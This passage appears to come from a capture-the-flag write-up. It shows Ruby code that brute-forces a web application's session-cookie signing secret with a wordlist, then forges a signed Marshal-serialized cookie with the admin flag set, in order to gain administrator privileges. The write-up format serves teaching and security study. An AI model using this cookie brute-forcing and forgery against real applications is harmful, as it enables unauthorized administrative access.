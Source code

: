 ```ruby

    for cookie in cookies
        secret = find_secret(cookie, words)
        if secret.nil?
            puts('find-secret: Brute force failed. Try a different dictionary or check your cookie')
        else
            puts('Secret found: ' + secret)
        end
    end
    return 0
end

main
```

Running this with our wordlist and cookie from the server we get:

![find-secret](images/find-secret.png)

Now that we have the secret, we can go ahead and sign our modified cookie and try to 
get administrator privileges.

Modified `tamper-cookie.rb` program

```ruby
require 'pp'
require 'uri'
require 'base64'
require 'openssl'
require 'data_mapper'

DataMapper.setup(:default, 'sqlite3::memory')

class User
    attr_accessor :admin
end

def encode_object(obj, secret)

    obj["user"].admin = true

    data = Base64.encode64(Marshal.dump(obj))

    signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)

    # URI encode doesn't encode '=' character
    return URI.encode(data).gsub("=", "%3D")+"--"+signature
end

def decode_cookie(c)
    cookie = c.split("--")

    # Undo URL encode then base64 decode
    decoded = Base64.decode64(URI.decode(cookie[0]))

    begin
        obj = Marshal.load(decoded)
        puts("Decoded Cookie:\n")
        return obj
    rescue ArgumentError => err
```